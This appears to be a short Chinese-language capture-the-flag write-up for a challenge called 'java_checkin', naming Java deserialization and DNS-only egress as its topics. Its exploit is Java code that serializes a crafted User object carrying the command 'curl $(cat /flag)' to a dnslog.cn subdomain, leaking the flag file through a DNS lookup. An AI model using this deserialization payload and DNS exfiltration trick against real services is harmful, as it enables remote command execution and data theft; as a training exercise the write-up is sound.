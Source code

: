 # java_checkin

## 题目描述

## 考点

java项目导入，简单的反序列化，dns出网

## 解析

题目只需要简单的java知识，会反序列化即可，另外题目tcp不出网，可以使用dnslog获取flag。

*exp*

```java
package org.dawn;

import org.dawn.java_checkin.bean.User;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Main {
    public static void main(String[] args) throws Exception {

        User user = new User();
        user.secret = new String[]{"bash", "-c", "curl $(cat /flag).llf1g6.dnslog.cn"};

        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeUTF("whuctf");
        oos.writeInt(2024);
        oos.writeObject(user);
        byte[] res = baos.toByteArray();

        Base64.Encoder encoder = Base64.getEncoder();
        System.out.println(encoder.encodeToString(res));
    }
}
```
